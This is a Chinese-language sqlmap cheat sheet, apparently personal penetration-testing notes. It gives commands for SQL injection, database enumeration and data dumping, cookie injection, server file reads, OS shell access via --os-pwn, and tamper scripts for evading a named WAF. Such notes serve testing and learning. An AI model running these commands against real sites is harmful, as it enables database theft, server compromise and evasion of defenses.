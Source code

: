 # Sqlmap

---

所有请求方式都能注入，默认是get/post,但是当使用--level参数>=2时，检查cookies，>=3时检查user-agent和referer、 --level 1 GET|2 cookies|3 POST

提示输入的选择，大写是回车默认选项

出现红色提示就是错误，建议加参数

版本：

```
python 版本，较简便，基础功能都有(https://github.com/sqlmapproject/sqlmap)

kali版本，较全面，可以msf联动
```

---

## 常用：

```
python sqlmap.py -u http://www.xxx.com/id=1 -p Id --random-agent --dbms mysql -proxy=http://127.0.0.1:10809 --threads=5 --dbs
```



---

sqlmap -u "http://URL/id=1"	

## 参数

```

--current-db 		#列出当前的数据库
 
--current-user		#列出当前的权限用户

--threads=线程数    #设置线程数，0~10

--referer IP或域名  #设置访问来源

--is-dba  #查看当前数据库用户权限

--level 等级  （等级越高检测会越全面，总5级）

--dbms 数据库名 （指定数据库类型）

--batch   按照sqlmap的默认提示往下确认

--proxy http://localhost:8080 #代理

-p 参数名  #指定注入点参数，当有多个参数时使用 ,默认全部参数都测试注入

-r 文件名         #该文件是能注入的页面的抓·包

--charset=     #编码格式GBK、UTF-8

--dbs 			#列出服务器中所有的数据库

-D 库名 --tables 	#列出该库的所有表

-D 库名 -T 表名 --columns #列出库名的表名的所有字段名

-D 库名 -T 表名 -C "字段名" --dump #列出库名的表名的字段名的数据

4.0版本可以用

--os-pwn #获取操作系统的shell  ，需要依赖msf（建议在kali里使用）

--sql-shell               
# 文件读取
1.
select load_file('绝对路径') #查看后台登录页面判断登录的代码，找到用户名和密码的代入查询的字段名，和表名（注意，路径使用/，无论是windows还是linux，如要使用\ 就使用\\或者16进制,16进制就不用双引号）windows2003读取C:/windows/system32/inetarv/metabase.xml就可以查看到所有网站根目录
2.
select load data infile '绝对路径' into table user1;  #读取文件写入到user1表中
select * from user;  
3.mysql 5.x以上，sql连接是本地才可以执行
system cat 绝对路径 ;  #执行系统命令读取

```
当无法读取数据库表名

```
情况：
1.版本小于5.0的MySQL没有information_schema表
2.微软Access的MSysObjects表默认不可读
3.数据库用户权限过低无法读取表名

--common-tables  #爆破表名，爆破字典路径txt/common-tables.txt
--common-columns #爆破列名，爆破字典路径txt/common-columns.txt
```



指定注入类型：

```
--technique B
B : 基于Boolean的盲注（Boolean based blind）
Q : 内联查询（Inline queries）
T : 基于时间的盲注（time based blind）
U : 基于联合查询（Union query based）
E : 基于错误（error based）
S : 栈查询（stack queries）
```

---

## cookies注入：（等级2才有cookies注入检测）

sqlmap -u "URL/xxx.php" --cookie "id=n" --level 2 --dbms=mysql --dbs   #cookies注入mysql数据库，查看所有数据库

--cookie "id=n"  --level 2 -D 库名 --tables

--cookie "id=n"  --level 2 -D 库名 -T 表名 --columns

--cookie "id=n"  --level 2 -D 库名 -T 表名 -C "字段名" --dump

\-----------------------------

## temper

tamper（编写绕过规则）：进行绕过waf（防护规则，检测发包间隔）

sqlmap默认tamper有  

sqlmap -u "http://URL/id=1" --tamper "xx.py"  --delay 3 #每次发包延迟3秒再发

 -v 显示包的等级

暂时能过V3.2，更高版本的安全狗要研究

详细：http://www.91ri.org/7852.html

空格 换成 #、随即字符串、换行符

